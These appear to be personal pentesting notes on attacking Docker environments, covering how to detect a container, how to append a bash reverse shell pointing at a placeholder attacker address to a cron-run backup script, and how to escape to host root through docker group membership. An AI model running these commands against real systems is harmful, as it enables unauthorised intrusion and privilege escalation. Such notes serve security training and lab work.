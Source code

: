 ```yaml
---
title: Docker hacking 🐳
---
```


- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

